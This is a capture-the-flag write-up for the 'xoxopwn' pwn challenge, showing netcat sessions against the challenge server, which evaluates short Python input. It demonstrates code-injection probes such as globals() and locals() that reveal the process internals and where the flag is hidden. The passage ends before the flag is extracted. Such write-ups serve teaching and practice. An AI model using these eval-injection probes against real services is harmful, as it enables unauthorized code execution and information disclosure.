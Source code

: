 # xoxopwn

Category: `pwn`

Services: `nc 178.128.12.234 10002` or `nc 178.128.12.234 10003`

Points: `601`

### What It Does

The maximum length of the user input is 21 characters.

```shellsession
ubuntu@ubuntu-xenial:/ctf/2018/isitdtu_ctf/pwn$ nc 178.128.12.234 10002
This is function x()>>> A
ubuntu@ubuntu-xenial:/ctf/2018/isitdtu_ctf/pwn$ python -c 'print "A" * 22' | nc 178.128.12.234 10002
This is function x()>>> Big size ~ubuntu@ubuntu-xenial:/ctf/2018/isitdtu_ctf/pwn$ 
```

The process is written in python and the function is evaluating the user input. If there are any exceptions, nothing will be printed.

```shellsession
ubuntu@ubuntu-xenial:/ctf/2018/isitdtu_ctf/pwn$ nc 178.128.12.234 10002
This is function x()>>> 1
1ubuntu@ubuntu-xenial:/ctf/2018/isitdtu_ctf/pwn$ nc 178.128.12.234 10002
This is function x()>>> "A"
Aubuntu@ubuntu-xenial:/ctf/2018/isitdtu_ctf/pwn$ nc 178.128.12.234 10002
This is function x()>>> 1+1
2ubuntu@ubuntu-xenial:/ctf/2018/isitdtu_ctf/pwn$ nc 178.128.12.234 10002
This is function x()>>> x
<function x at 0x7f88b0d2e050>ubuntu@ubuntu-xenial:/ctf/2018/isitdtu_ctf/pwn$ 
```

The function definition of `x()` can be viewed in the [xoxopwn_soln.out](files/xoxopwn_soln.out)

### How to Solve

Using builtin python functions, we know more about the process and that the flag is in function `o()`.

```shellsession
ubuntu@ubuntu-xenial:/ctf/2018/isitdtu_ctf/pwn$ nc 178.128.12.234 10002
This is function x()>>> globals()
{'server_thread': <Thread(Thread-1, started daemon 140225032603392)>, 'ThreadedTCPRequestHandler': <class __main__.ThreadedTCPRequestHandler at 0x7f88b0d32530>, 'ThreadedTCPServer': <class __main__.ThreadedTCPServer at 0x7f88b0d324c8>, 'socket': <module 'socket' from '/usr/lib/python2.7/socket.pyc'>, 'SocketServer': <module 'SocketServer' from '/usr/lib/python2.7/SocketServer.pyc'>, '__builtins__': <module '__builtin__' (built-in)>, '__file__': '/home/xoxopwn/xoxopwn.py', 'o': <function o at 0x7f88b0d21c80>, '__package__': None, 'port': 9999, 'threading': <module 'threading' from '/usr/lib/python2.7/threading.pyc'>, 'host': '0.0.0.0', 'x': <function x at 0x7f88b0d2e050>, '__name__': '__main__', '__doc__': None, 'serverthuong123': <__main__.ThreadedTCPServer instance at 0x7f88b0d19e18>}ubuntu@ubuntu-xenial:/ctf/2018/isitdtu_ctf/pwn$ nc 178.128.12.234 10002
This is function x()>>> locals()
{'a': 'locals()', 'xxx': 'finding secret in o()'}ubuntu@ubuntu-xenial:/ctf/2018/isitdtu_ctf/pwn$ 
```
